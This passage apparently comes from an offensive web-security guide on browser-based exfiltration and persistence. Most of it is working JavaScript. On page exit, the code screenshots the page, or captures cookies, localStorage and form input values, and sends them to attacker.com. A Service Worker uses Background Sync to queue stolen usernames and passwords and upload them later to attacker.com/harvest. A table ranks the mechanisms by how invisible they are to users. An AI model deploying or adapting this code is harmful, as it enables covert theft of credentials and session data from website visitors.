// Scenario 2: Screenshot exfiltration on exit
window.addEventListener('beforeunload', async () => {
  // Capture screenshot using html2canvas or similar
  const canvas = await html2canvas(document.body);
  canvas.toBlob((blob) => {
    navigator.sendBeacon('https://attacker.com/screenshot', blob);
  }, 'image/jpeg', 0.5); // Compress to fit in 64KB
});

// Scenario 3: DOM snapshot on exit
window.addEventListener('pagehide', () => {
  const domSnapshot = {
    html: document.documentElement.outerHTML,
    localStorage: { ...localStorage },
    cookies: document.cookie,
    formInputs: Array.from(document.querySelectorAll('input')).map(input => ({
      name: input.name,
      value: input.value,
      type: input.type
    }))
  };
  
  const blob = new Blob([JSON.stringify(domSnapshot)], { type: 'application/json' });
  navigator.sendBeacon('https://attacker.com/snapshot', blob);
});
```
:::

### 3.6 Background Sync API: Deferred Payload Execution

The **Background Sync API** allows Service Workers to defer requests until network connectivity is restored, ensuring malicious payloads execute even after temporary disconnections.

::: danger Attack Scenario
Victim visits compromised site while offline (cached Service Worker). Credentials are harvested and queued. When victim reconnects hours/days later, Service Worker wakes up and exfiltrates data automatically.
:::

#### Implementation

::: details Click to expand code
```javascript
// Service Worker with Background Sync
self.addEventListener('sync', event => {
  if (event.tag === 'exfiltrate-credentials') {
    event.waitUntil(
      exfiltrateQueuedData()
    );
  }
});

async function exfiltrateQueuedData() {
  // Retrieve queued credentials from IndexedDB
  const db = await openDatabase();
  const credentials = await getAllQueuedCredentials(db);
  
  if (credentials.length === 0) {
    console.log('[*] No queued data to exfiltrate');
    return;
  }
  
  console.log(`[+] Background Sync: Exfiltrating ${credentials.length} credential sets`);
  
  try {
    const response = await fetch('https://attacker.com/harvest', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({
        syncedAt: Date.now(),
        credentials: credentials
      })
    });
    
    if (response.ok) {
      // Clear queue after successful exfiltration
      await clearQueuedCredentials(db);
      console.log('[+] Background Sync: Exfiltration complete');
    } else {
      // Retry on next sync
      console.warn('[!] Background Sync: Exfiltration failed, will retry');
      throw new Error('Exfiltration failed');
    }
  } catch (error) {
    // Service Worker will retry automatically
    console.error('[!] Background Sync error:', error);
    throw error;
  }
}

// Page code: Queue credentials for background sync
async function queueCredentialForSync(username, password) {
  // Store in IndexedDB
  const db = await openDatabase();
  await storeCredential(db, { username, password, queued: true, timestamp: Date.now() });
  
  // Register sync event
  const registration = await navigator.serviceWorker.ready;
  await registration.sync.register('exfiltrate-credentials');
  
  console.log('[+] Credential queued for background sync');
}
```
:::

::: tip Persistence Comparison Matrix

| Mechanism | Survives Restart | Survives Cache Clear | Size Limit | Network Required | User Visible |
|-----------|------------------|----------------------|------------|------------------|--------------|
| **Service Worker** | ✅ Yes | ⚠️ Partial | Unlimited | No | No |
| **IndexedDB** | ✅ Yes | ❌ No (if targeted) | ~Unlimited* | No | No |
| **localStorage** | ✅ Yes | ❌ No | 5-10 MB | No | No |
| **Beacon API** | ❌ No | N/A | 64 KB | Yes | No |
| **Background Sync** | ✅ Yes (via SW) | ⚠️ Partial | Unlimited | Yes (deferred) | No |
| **Web Workers** | ❌ No | N/A | Memory only | No | No |

*Requires user permission for unlimited quota
:::


